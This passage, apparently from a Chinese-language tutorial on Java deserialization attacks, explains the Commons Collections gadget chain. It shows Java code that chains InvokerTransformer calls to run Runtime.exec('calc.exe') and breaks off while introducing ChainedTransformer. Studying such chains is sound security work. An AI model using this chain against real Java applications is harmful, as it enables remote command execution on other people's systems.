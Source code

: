 可以这样去调用

```
        Class runtime = Class.forName("java.lang.Runtime");//获取Runtime类
        Object T0WN = new InvokerTransformer("getMethod",new Class[] {
                String.class,Class[].class},new Object[] {
                "getRuntime",null
        }).transform(runtime);//借助InvokerTransformer调用runtimeClass的getMethod方法,参数是getRuntime,最后返回的其实是一个Method对象即getRuntime方法
        Object DawnT0wn = new InvokerTransformer("invoke",new Class[]{
                Object.class,Object[].class},new Object[]{
                        null,null
        }).transform(T0WN);//借助InvokerTransformer调用T0WN的invoke方法,没有参数,最后返回的其实是DawnT0wn这个对象
        Object exec = new InvokerTransformer("exec",new Class[]{
                String.class},new Object[]{
                        "calc.exe"
        }).transform(DawnT0wn);//借助InvokerTransformer调用DawnT0wn的exec方法,参数为calc.exe,返回的自然是一个Process对象
```

- 将ConstantTransformer返回的`Runtime.class`传给第一个InvokerTransformer；
- 将第一个InvokerTransformer返回的`(Runtime.class).getMethod("getRuntime",null)`传给第二个InvokerTransformer；
- 将第二个InvokerTransformer返回的`((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)`传给第三个InvokerTransformer；
- `(((Runtime.class).getMethod("getRuntime",null)).invoke(null,null)).exec("calc.exe")`是第三个InvokerTransformer的返回值。

上面只是在InvokerTransformer类中去执行任意方法

我们还需要了解两个类

- ConstantTransformer类的transform方法
- ChainedTransformer类的transform方法

先看ConstantTransformer类

![image-20211130131628264](images/1.png)

它的transform方法就是直接返回其构造函数传进来的对象

在看ChainedTransformer类的transform方法
